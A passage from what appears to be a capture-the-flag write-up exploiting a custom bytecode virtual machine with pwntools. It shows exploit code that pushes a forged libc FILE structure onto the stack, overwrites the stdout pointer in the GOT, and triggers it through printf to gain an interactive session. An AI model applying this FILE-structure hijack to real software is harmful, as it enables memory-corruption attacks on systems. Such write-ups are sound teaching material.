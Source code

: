 Now that the complicated explanations are over, let's load all of this data on the virtual stack using the push instruction. Remember, **PUSH** takes 8 bytes at a time and we will have to insert our file stream's data backwards so that the stack lays all the bytes in the right order for libc to consider it a valid stream (and generally for our exploit to work).

```py
    # ...

    shellcode = ""
    for i in range(0, len(total_data), 8):
        block = total_data[i:i+8]
		# pwntools already does packing for us so we don't want to swap endianness again, therefore we use big endian
        shellcode += "PUSH 0x%xq\n" % unpack(block, endianness="big")

    # ...
```

and finally we can add our **LEA** instruction to replace the **stdout** pointer to our own fake file structure and trigger our exploit by using **PRT**. (Note that you don't actually need to call **PRT** as the printf function is called after execution to prompt the user for more bytecode and that by itself will trigger our payload. I just prefer calling **PRT** as it is more explicit for our method).

We can do this with the following code : 

```py
    # ...

    shellcode += "LEA 0x404020q, 0x%xq\n" % stream # overwrite stdout on got with our stack
    shellcode += "PRT 0x41414141s"

    info("======== FINAL BYTECODE =========")
    info(shellcode)
    info("=================================")

    r.sendlineafter(b'>> ', compile(shellcode))

    r.interactive()	
```

And that was the last step of our exploit plan ! Let's check if everything worked...
